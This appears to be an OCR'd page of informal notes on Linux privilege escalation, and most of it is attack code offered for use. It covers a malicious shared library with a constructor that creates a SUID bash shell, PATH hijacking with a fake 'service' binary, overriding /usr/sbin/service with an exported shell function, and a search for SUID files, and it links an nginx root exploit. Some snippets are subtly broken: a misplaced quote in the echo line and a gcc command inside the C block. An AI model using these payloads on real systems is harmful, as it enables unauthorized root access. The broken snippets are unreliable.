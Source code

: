 
> if u find a file in crontab or whatever that the system is executing as root, you can create a malicious file with the same name as that file, to make the system execute this instead;

nano malicious.c (btw nano > VIM )
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
  system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

gcc -shared -fPIC -o <path/output file> <path of file>

```

### via Binary Symlinks

Nginx Exploit: https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html

> For this to work, we need find the SUID bit set in /usr/bin/sudo file.
and vulnerable version of nginx

### via Environmental Variables
```bash
env 
# to show environmental variables

find / -perm -4000 -type f  -ls 2>/dev/null
```

File running with root privileges: 
```bash
service apache2 start 
# this is vulnerable cause is running without the full path for service
```

> Lets remember that the system grabs the full path of service via **env $PATH**

> With that in mind, we can make a malicious file and alter the $PATH variable to run a script.

```bash
echo 'int main () { setgid(0); setuid(0); system("/bin/bash"); return 0;} > /tmp/service.c'

gcc /tmp/service.c -o /tmp/service/
export PATH=/tmp:$PATH
```

File running with root but with full path:
```bash
/usr/sbin/service apache2 start

function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service 
# -f = refers to shell functions
```
